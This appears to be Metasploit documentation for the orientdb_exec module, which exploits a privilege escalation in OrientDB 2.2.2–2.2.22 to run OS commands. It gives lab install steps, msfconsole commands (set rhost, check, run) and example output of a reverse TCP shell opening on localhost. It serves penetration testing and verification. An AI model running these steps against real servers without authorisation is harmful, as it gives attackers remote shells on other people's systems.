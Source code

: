 This module leverages a privilege escalation on OrientDB to execute unsandboxed OS commands.

All versions from 2.2.2 up to 2.2.22 should be vulnerable.

The module is based on the public PoC found here: https://blogs.securiteam.com/index.php/archives/3318

## Vulnerable Application
OrientDB 2.2.2 <= 2.2.22

## Installation
Download a vulnerable OrientDB version here: http://orientdb.com/download-previous/
`$ wget http://orientdb.com/download.php?file=orientdb-community-2.2.20.zip&os=multi`
`$ unzip orientdb-community-2.2.20.zip`
`$ chmod 755 bin/*.sh`
`$ chmod -R 777 config`
`$ cd bin`
`$ ./server.sh`

## References for running OrientDB 
http://orientdb.com/docs/2.0/orientdb.wiki/Tutorial-Installation.html
http://orientdb.com/docs/2.0/orientdb.wiki/Tutorial-Run-the-server.html

## References for vulnerability
https://blogs.securiteam.com/index.php/archives/3318
http://www.palada.net/index.php/2017/07/13/news-2112/
https://github.com/orientechnologies/orientdb/wiki/OrientDB-2.2-Release-Notes#2223---july-11-2017

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/orientdb_exec`
- [ ]  `set rhost <RHOST>`
- [ ]  `set target <TARGET_NUMBER>`
- [ ]  `set workspace <WORKSPACE>`
- [ ]  `check`
- [ ] **Verify** if the OrientDB instance is vulnerable
- [ ]  `run`
- [ ] **Verify** you get a session

## Example Output
`[LHOST:127.0.0.1][Workspace:default][Jobs:0][Sessions:0][/Users/vibrio] exploit(orientdb_exec) > run`
`[*] [2017.07.18-15:55:47] Started reverse TCP handler on 127.0.0.1:37331`
`[*] [2017.07.18-15:55:49] 127.0.0.1:2480 - Sending payload...`
`[*] Command shell session 1 opened (127.0.0.1:37331 -> 127.0.0.1:46594) at 2017-07-18 15:55:49 +0100`

